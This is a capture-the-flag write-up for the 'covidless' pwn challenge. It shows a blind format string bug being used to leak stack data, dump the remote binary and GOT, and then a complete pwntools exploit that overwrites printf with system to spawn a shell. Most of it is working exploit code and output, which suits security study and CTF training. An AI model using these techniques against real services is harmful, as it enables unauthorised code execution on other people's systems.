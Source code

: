 ```yaml
---
title: "[pwn] covidless"
categories:
  - CTF/pwn
tags:
  - fmtstr
  - overwriteGOT
---
```


The only info provided was ip addr & port number. Without binary to download, then i try it, the binary has format string vuln.

```bash
$ nc covidless.insomnihack.ch 6666
%8$p
Your covid pass is invalid : 0x5379334b5f763172
try again ..

%9$p
Your covid pass is invalid : 0x5f74304e6e34635f
try again ..
```

```python
#!/usr/bin/python3
from pwn import *
context.log_level='critical'

for i in range(1, 100):
    r = remote('covidless.insomnihack.ch', '6666')

    # r.sendline(f'%{i}$s')   #1
    r.sendline(f"%{i}$016lx") #2

    data = r.recvline()[29:-1]
    if(data != b'(null)'):
        print(i, data)
    r.close()
```

with `#1` i obtain some info

```bash
59 b'./covidless'
61 b'REMOTE_HOST=::ffff:14.177.85.188'
69 b'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
73 b'LD_PRELOAD=./libc6_2.27-3ubuntu1_amd64.so'
84 b'\x7fELF\x02\x01\x01'
```

and output from 2 consecutive runs, it has some same

```bash
1 b'0000000000400934'
6 b'74346e3143633456'
7 b'505f44315f6e6f31'
8 b'5379334b5f763172'
9 b'5f74304e6e34635f'
30 b'0000000000400890' <- A return address that points into
35 b'000000000040075a'    the .text segment of the program
```

We can assume that PIE is off (the `.text` segment addresses are the same each time).

The .text segment likely starts at `0x400000`

```python
# dump.py
#!/usr/bin/python3
from pwn import *

binary = b""
leak = b""
io = remote('covidless.insomnihack.ch', 6666)
addr = 0x400000 # 0x601000
while addr != 0x402000:# 0x602000
    if '0a' in hex(addr):
        leak = b"0"
        binary += b'\0'
    else:
        payload = b"%13$sAAA"+p64(addr)
        io.sendline(payload)
        io.recvuntil(b" : ")
        leak = io.recvuntil(b"AAA",drop=True)
        if leak == b"":
            leak = b"0"
            binary += b'\0'
        else:
            binary += leak
				 print(hex(addr), '0x' + leak[::-1].hex())
    with open('bin','wb+') as f:
        f.write(binary)
    addr += len(leak)

$ ./dump.py > log.txt
```

look at import tab in ida, the GOT located at offset `0x601000` run it again with new addr

log.txt + [symbols on libc](https://libc.blukat.me/d/libc6_2.27-3ubuntu1_amd64.symbols) :

```bash
0x601000 0x600e20
0x601008 0x7fddfa0fe170
0x60100e 0x30
0x60100f 0x30
0x601010 0x7fddf9eea8f0
0x601016 0x30
0x601017 0x30
0x601018 0x7fddf9b629c0 -> _IO_puts
0x60101e 0x30
0x60101f 0x30
0x601020 0x4005f6
0x601028 0x7fddf9b46e80 -> _IO_printf
0x60102e 0x30
0x60102f 0x30
0x601030 0x7fddf9c70f50 -> _snprintf
0x601036 0x30
0x601037 0x30
0x601038 0x7fddf9b60b20 -> _IO_fgets, fgets
0x60103e 0x30
0x60103f 0x30
0x601040 0x7fddf9b8be70 -> __snprintf_chk
0x601046 0x30
0x601047 0x30
0x601048 0x7fddf9b607e0 -> _IO_2_1_stdin_
0x601060 0x7fddf9ece760
0x601071 0x7fddf9ecda
```

---

## Strategy

1. Leak the glibc base addr from GOT
2. Overwrite the GOT entry of `printf` with `system` using a format str
3. Get a shell

```python
# xpl.py
#!/usr/bin/env python3
from pwn import *

uu64 = lambda x : u64(x.ljust(8, b'\x00'))

def start(argv=[], *a, **kw):
    return remote('covidless.insomnihack.ch', 6666, *a, **kw)

context.clear(arch = 'amd64')
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')
# warning/info/debug
context.log_level = 'info'

def get_returned_value():
    data = io.recvline().replace(b"\ntry again ..\n\n", b"")[29:]
    return data

def read_address(addr):
    payload = b"%14$s".ljust(16, b",")
    payload += p64(addr)
    io.sendline(payload)

    data = get_returned_value()
    print(data)
    return data.split(b',')[0]

globalOffsetTable = {
    'puts': 0x601018,
    'printf': 0x601028,
}
io = start()

# lazy linking for puts()
io.sendline(b'')
io.recvuntil(b'\n\n')

libc.address = uu64(read_address(globalOffsetTable['puts'])) - libc.sym.puts
log.info("base = %#x", libc.address)

payload_writes = {
    globalOffsetTable['printf']: libc.sym['system']
}
io.sendline(fmtstr_payload(12, payload_writes, write_size='short'))
io.sendline(b'/bin/sh')
io.interactive()
```
